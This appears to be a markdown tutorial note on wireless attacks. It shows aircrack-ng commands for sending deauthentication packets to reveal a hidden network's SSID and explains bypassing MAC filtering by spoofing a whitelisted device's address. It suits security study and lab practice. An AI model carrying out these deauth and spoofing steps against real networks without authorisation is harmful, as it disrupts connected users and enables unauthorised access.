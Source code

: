 
### 🛠️ Objective:

**Reveal the SSID of a hidden Wi-Fi network** by forcing a connected client to disconnect (deauth attack), and then capturing the handshake or beacon when it reconnects.

---

###  Explanation:

To identify the name (SSID) of a hidden Wi-Fi network:

1. Use `airodump-ng` to find the **BSSID** of the hidden network and any **connected clients**.
2. Use `aireplay-ng` to send **deauthentication packets** to disconnect a client from that network.
3. When the client **reconnects**, it sends a probe request or association request **revealing the SSID**, which you can capture with `airodump-ng`.

---

### ✅ Command:

```bash
aireplay-ng --deauth 4 -a [Router_BSSID] -c [Client_MAC] wlan0
```

* `--deauth 4`: sends 4 deauth packets (you can increase it if needed).
* `-a [Router_BSSID]`: the MAC address of the hidden Wi-Fi router (AP).
* `-c [Client_MAC]`: the MAC address of a client connected to the hidden Wi-Fi.
* `wlan0`: your wireless interface in monitor mode.

---

### 🧠 Full Flow Example:

```bash
# Step 1: Scan and find hidden AP and client
airodump-ng wlan0mon

# Step 2: Deauth the client
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Step 3: Capture packets and reveal SSID when client reconnects
airodump-ng -w capture --bssid AA:BB:CC:DD:EE:FF wlan0mon
```

Once the client reconnects, the hidden SSID will appear in `airodump-ng`, or can be extracted from the capture file using `Wireshark`.

---

### Mac Filtering
- Mac address is unique to each network device.
- Routers can use mac filtering to allow/deny devices from connecting based on their mac address.

#### 2 Implementations:
1. Using a blacklist - allow all MACs to connect except the ones in the list.
   - Ans:- Just change the MAC address.
2. Using a whitelist - deny all MACs from connecting except the ones in the list.
   - Ans:- Just change the MAC address to connected device MAC address.

